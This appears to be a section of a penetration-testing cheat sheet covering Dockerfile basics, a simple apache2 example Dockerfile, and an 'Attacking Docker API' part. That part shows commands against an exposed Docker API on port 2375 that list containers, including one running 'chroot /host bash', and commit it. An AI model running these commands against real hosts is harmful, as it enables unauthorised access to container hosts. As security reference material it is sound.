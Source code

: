 ### Dockerfiles

- FROM       // build from a specific base image
- RUN        // execute command in the container within a new layer
- COPY       // copy files from the host filesystem
- WORKDIR    // set the root file system of the container
- CMD        // determines what command is run when the container starts (Example: CMD /bin/sh -c <FILE>.sh)
- EXPOSE     // publishes a port in the users context

#### Example Dockerfile

```c
# Example Dockerfile
FROM ubuntu:22.04

# Set working directory
WORKDIR /

# Create a file inside of the root directory
RUN touch <FILE>

# Perform updates
RUN apt-get update -y

# Install apache2
RUN apt-get install apache2 -y

# Expose port 80/TCP
EXPOSE 80

# Start the service
CMD ["apache2ctl", "-D","FOREGROUND"]
```

#### Build Example Dockerfile

```c
$ docker build -t <NAME> .
$ docker run -d --name <NAME> -p 80:80 <NAME>
```

### Attacking Docker API

```c
$ docker -H <RHOST>:2375 ps -a
CONTAINER ID   IMAGE     COMMAND                  CREATED        STATUS                    PORTS     NAMES
01ca084c69b7   alpine    "chroot /host bash -…"   11 hours ago   Exited (2) 11 hours ago             zealous_blackburn
```

```c
$ docker -H <RHOST>:2375 commit 01ca084c69b7
sha256:aa02ba520ac94c2ca87366344c6c6f49d351a4ef05ba65341109cdccf14619ac

Initial CONTAINER ID: 01ca084c69b7
New COMMIT:           aa02ba520ac94c2ca87366344c6c6f49d351a4ef05ba65341109cdccf14619ac
New CONTAINER ID:     aa02ba520ac9
```

